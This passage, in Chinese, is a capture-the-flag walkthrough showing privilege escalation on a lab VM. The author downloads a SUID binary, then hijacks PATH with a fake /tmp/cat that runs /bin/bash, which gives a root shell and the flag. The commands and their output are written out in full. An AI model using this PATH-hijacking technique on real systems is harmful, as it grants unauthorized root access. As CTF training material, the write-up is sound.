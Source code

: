 根据程序结果应该是药看这个程序了，首先看下它包含的字符串：

![image-20231108161231657](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081612977.png)

大部分都没有问题，但是这个`cat /root/system.info`感觉是直接执行系统命令，加上这个程序是一个root权限，那么这条命令也就是个root权限的命令。

如果想确认一下这个程序的逻辑，可以sftp把文件拿下来反编译看下：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sftp dexter@172.16.86.143
dexter@172.16.86.143's password:
Connected to 172.16.86.143.
sftp> get /opt/get_access .
Fetching /opt/get_access to ./get_access
```

![image-20231108161811753](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311081618084.png)

利用思路：

替换cat，因为并没有指定cat的绝对路径，system()函数在调用时是从环境变量里读取，所以我们可以伪造一个cat文件，然后加上环境变量就可以实现提权。

cat文件内容为`/bin/bash`，修改环境变量：

```shell
dexter@debian:~$ echo "/bin/bash" > /tmp/cat
dexter@debian:~$ cat /tmp/cat
/bin/bash
dexter@debian:~$ chmod +x /tmp/cat
dexter@debian:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
dexter@debian:~$ export PATH=/tmp:$PATH
dexter@debian:~$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

把包含伪造的cat文件的/tmp路径放在了PATH环境变量的最前面，这样在执行到`system("cat /root/system.info")`的时候，就会先去/tmp目录下调用cat。

直接执行`/opt/get_access`即可获得root的shell：

```shell
dexter@debian:~$ /opt/get_access
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),1001(dexter)
root@debian:~# ls
note.txt
root@debian:~# cat /root/root.txt
root@debian:~# more /root/root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
root@debian:~# /bin/cat /root/root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
```

# Notes

SUID的利用方式中，替换掉cat之后，cat命令就使用不了，除非使用绝对路径。


